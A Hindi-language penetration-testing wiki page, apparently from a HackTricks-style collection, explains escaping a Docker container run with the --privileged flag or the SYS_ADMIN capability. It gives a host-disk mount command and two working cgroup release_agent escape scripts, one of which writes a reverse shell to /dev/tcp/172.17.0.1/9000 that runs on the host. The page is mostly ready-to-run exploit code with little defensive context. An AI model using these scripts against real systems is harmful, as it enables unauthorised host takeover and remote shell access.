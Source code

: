 {% content-ref url="linux-capabilities.md" %}
[linux-capabilities.md](linux-capabilities.md)
{% endcontent-ref %}

# `--privileged` फ्लैग

--privileged फ्लैग कंटेनर को होस्ट डिवाइसेस तक पहुँच प्रदान करता है।

## मैं रूट का मालिक हूँ

अच्छी तरह से कॉन्फ़िगर किए गए डॉकर कंटेनर **fdisk -l** जैसे कमांड की अनुमति नहीं देंगे। हालांकि, गलत कॉन्फ़िगर किए गए डॉकर कमांड में जहाँ --privileged फ्लैग निर्दिष्ट है, होस्ट ड्राइव को देखने के लिए विशेषाधिकार प्राप्त करना संभव है।

![](https://bestestredteam.com/content/images/2019/08/image-16.png)

तो होस्ट मशीन पर कब्जा करने के लिए, यह सरल है:
```bash
mkdir -p /mnt/hola
mount /dev/sda1 /mnt/hola
```
और लीजिये! अब आप होस्ट की फाइल सिस्टम तक पहुँच सकते हैं क्योंकि यह `/mnt/hola` फोल्डर में माउंट किया गया है।

{% code title="Initial PoC" %}
```bash
# spawn a new container to exploit via:
# docker run --rm -it --privileged ubuntu bash

d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o;
echo $t/c >$d/release_agent;
echo "#!/bin/sh $1 >$t/o" >/c;
chmod +x /c;
sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```
{% endcode %}

{% code title="दूसरा PoC" %}
```bash
# On the host
docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash

# In the container
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

#For a normal PoC =================
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
#===================================
#Reverse shell
echo '#!/bin/bash' > /cmd
echo "bash -i >& /dev/tcp/172.17.0.1/9000 0>&1" >> /cmd
chmod a+x /cmd
#===================================

sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
head /output
```
